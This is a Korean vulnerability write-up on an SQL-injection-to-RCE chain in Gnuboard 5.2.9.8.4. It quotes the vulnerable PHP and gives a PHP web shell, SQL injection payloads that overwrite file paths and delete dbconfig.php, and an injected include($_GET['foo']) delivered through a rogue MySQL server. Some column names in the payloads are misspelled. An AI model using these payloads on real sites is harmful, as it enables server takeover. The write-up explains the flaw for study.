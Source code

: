 # 그누보드 5.2.9.8.4 RCE
>해당 취약점은 그누보드 5.2.9.8.4 에서 터지는 SQL Injection을 이용한 RCE 취약점입니다.
>
## 취약점 설명
>그누보드 /bbs/move_update.php 29~30,164 라인
<pre><code>$move_bo_table = $_POST['chk_bo_table'][$i];
$move_write_table = $g5['write_prefix'] . $move_bo_table;</code></pre>
>위의 코드를 보면 별다른 검증없이 "$_POST['chk_bo_table'][$i]" 변수의 값을 "$move_write_table" 변수에 넣어주는것을 알 수 있습니다.
<pre><code>sql_query(" update $move_write_table set wr_parent = '$save_parent' where wr_id = '$insert_id' ");</code></pre>
>그리고 위와 같이 sql_query함수를 이용하여 update 하는 SQL을 날려주는데 이때 테이블 clause에서 SQL Injection이 가능하여 다른 테이블의 값을 조작할 수 있습니다.

<pre><code>        $sql = " insert into {$g5['board_file_table']}
                    set bo_table = '{$bo_table}',
                         wr_id = '{$wr_id}',
                         bf_no = '{$i}',
                         bf_source = '{$upload[$i]['source']}',
                         bf_file = '{$upload[$i]['file']}',
                         bf_content = '{$bf_content[$i]}',
                         bf_download = 0,
                         bf_filesize = '{$upload[$i]['filesize']}',
                         bf_width = '{$upload[$i]['image']['0']}',
                         bf_height = '{$upload[$i]['image']['1']}',
                         bf_type = '{$upload[$i]['image']['2']}',
                         bf_datetime = '".G5_TIME_YMDHIS."' ";
        sql_query($sql);
    }</code></pre>

>그누보드에서 파일을 업로드하는 기능이 있는데 이 파일을 업로드 하면 위와 같이 "g5_board_file" 라는 테이블에 파일 명, 게시판 명, 게시글 번호 등등이 Insert 됩니다.

>이때 간단한 웹 쉘 코드인 "<?php system($_GET['cmd']); ?>" 등의 코드를 작성하여 업로드 합니다.

> 이후 다음과 같은 SQL Injecttion 페이로드 글의 내용을 조작하여 업로드된 진짜 파일명을 알아냅니다
>"notice set wr_content=(select bf_file_name from g5_board_file where wr_id=1 and bo_table=0x6578706c6f6974)#"


<pre><code>        if (!delete_point($row['mb_id'], $bo_table, $row['wr_id'], '쓰기'))
            insert_point($row['mb_id'], $board['bo_write_point'] * (-1), "{$board['bo_subject']} {$row['wr_id']} 글삭제");

        // 업로드된 파일이 있다면 파일삭제
        $sql2 = " select * from {$g5['board_file_table']} where bo_table = '$bo_table' and wr_id = '{$row['wr_id']}' ";
        $result2 = sql_query($sql2);
        while ($row2 = sql_fetch_array($result2)) {
            @unlink(G5_DATA_PATH.'/file/'.$bo_table.'/'.$row2['bf_file']);
            // 썸네일삭제
            if(preg_match("/\.({$config['cf_image_extension']})$/i", $row2['bf_file'])) {
                delete_board_thumbnail($bo_table, $row2['bf_file']);
            }
        }

        // 에디터 썸네일 삭제
        delete_editor_thumbnail($row['wr_content']);</code></pre>

>위는 당시와 비슷한 버전의 글을 삭제하는 delete.php인데 위에서 insert 한 "g5_board_file" 테이블의 "bf_file" 컬럼의 값을 select하여 unlink 하는것을 알 수 있습니다.
>이를 위의 SQL Injection을 이용하여 다음과 같은 페이로드를 이용하여 해당 게시글의 bf_file 컬럼의 값을 변경해주었습니다

>"notice as a inner join `g5_board_file` as b set b.bf_file=0x2e2e2f646174612f6462636f6e6669672e706870 where wr_id=1 and bo_table=0x6e6f74696365#"

<pre><code>$mysql_host  = $_POST['mysql_host'];
$mysql_user  = $_POST['mysql_user'];
$mysql_pass  = $_POST['mysql_pass'];
$mysql_db    = $_POST['mysql_db'];
$table_prefix= $_POST['table_prefix'];
$admin_id    = $_POST['admin_id'];
$admin_pass  = $_POST['admin_pass'];
$admin_name  = $_POST['admin_name'];
$admin_email = $_POST['admin_email'];

$dblink = @mysql_connect($mysql_host, $mysql_user, $mysql_pass);</code></pre>

<pre><code>$file = '../'.G5_DATA_DIR.'/'.G5_DBCONFIG_FILE;
$f = @fopen($file, 'a');
fwrite($f, "<?php\n");
fwrite($f, "if (!defined('_GNUBOARD_')) exit;\n");
fwrite($f, "define('G5_MYSQL_HOST', '{$mysql_host}');\n");
fwrite($f, "define('G5_MYSQL_USER', '{$mysql_user}');\n");
fwrite($f, "define('G5_MYSQL_PASSWORD', '{$mysql_pass}');\n");
fwrite($f, "define('G5_MYSQL_DB', '{$mysql_db}');\n");
fwrite($f, "define('G5_MYSQL_SET_MODE', {$mysql_set_mode});\n\n");
fwrite($f, "define('G5_TABLE_PREFIX', '{$table_prefix}');\n\n");</code></pre>

> "dbconfig.php" 파일이 삭제되면 그누보드에선 install이 되지 않았다고 판단하여 위와 같은 install_db.php를 이용하여 다시 dbconfig.php 파일을 write해줍니다.

> 이 때 "mysql_connect" 함수에서 정상적인 connection을 위해 php코드를 본인의 로컬 mysql 서버에 " ');include($_GET['foo']);// "와 같은 DB or PASSWORD를 셋팅해주고 외부접속을 허용합니다.

>이 후 index.php?foo=파일명&cmd=ls 를 하면 정상적으로 쉘을 획득할 수 있습니다.

## 다른 exploit 방법

>그누보드에서는 각각의 게시판마다 g5_board 테이블에 있는 bo_include_head,bo_include_head 컬럼들의 값을 각각 상단 파일,하단 파일로 include합니다 때문에 다음과 같은 페이로드를 통해서 더욱 간단한 쉘 획득이 가능합니다.

>"notice as a inner join g5_board as b set b.bo_incldue_head=concat(0x2e2e2f646174612f6578706c6f69742f,(select bf_file from g5_board_file where wr_id=글 번호
))where bo_table=0x6578706c6f6974"

